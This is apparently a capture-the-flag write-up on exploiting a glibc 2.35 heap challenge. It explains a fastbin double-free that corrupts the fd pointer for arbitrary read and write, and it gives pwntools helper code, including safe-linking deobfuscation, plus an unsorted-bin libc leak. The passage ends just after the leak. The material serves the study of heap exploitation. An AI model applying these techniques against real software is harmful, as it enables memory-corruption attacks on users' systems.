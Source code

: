 
{{<callout >}}
### Main Bug  
In libc 2.35 to check double free on a fastbin chunk, it checks that the chunk being freed is not at the top of the fastbin chunk list. Say `chunk A` is victim chunk, and some another `chunk B`, we can free both of them like: 

free(A) #chunk A is at fastbin top  
free(B) #chunk B is at fastbin top  
free(A) #double free A   

So the next time we malloc chunks, out first allocationg will be `chunk A`, here we can corrupt the `fd` pointer and point it to any arbitary location, so the next allocation after 2nd malloc on `chunk A` will point to that arbitary address thus giving us both `OOB read and write`  

{{</callout>}}   

To perform the exploit I have created some helper function to perform the I/O 
```python
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def malloc(idx, size, data):
    p.sendlineafter("_-_-_-_-", "1")
    p.sendlineafter("request?", str(size))
    p.sendlineafter("Page?", str(idx).encode())
    p.sendlineafter("victim:", data)

def free(idx):
    p.sendlineafter("_-_-_-_-", "2")
    p.sendlineafter("Page?", str(idx).encode())

def view(idx):
    p.sendlineafter("_-_-_-_-", "3")
    p.sendlineafter("Page?", str(idx).encode())
    p.recvuntil("content: ")
    data = p.recvline()[:-1]
    return data
```


### Unsorted Bin Leak   

* First allocate total of 9 chunks of equal size, 7 of them will go in `tcache bin`, 1 will go in `unsorted bin` and another will stay allocated as  a guard chunk to `prevent consolidation` of `unsorted bin` chunk with the `top chunk` 

```python
for i in range(10):
    malloc(i, 0x80, "X"*0x80)

for i in range(7 + 1): # 7 tcache + 1 unsorted
    free(i) 

libc_leak = u64(view(7).ljust(8, b"\x00")) - 0x21ace0

log.critical(f"libc @ {hex(libc_leak)}") 
```    
This is the state of heap after the above operation 
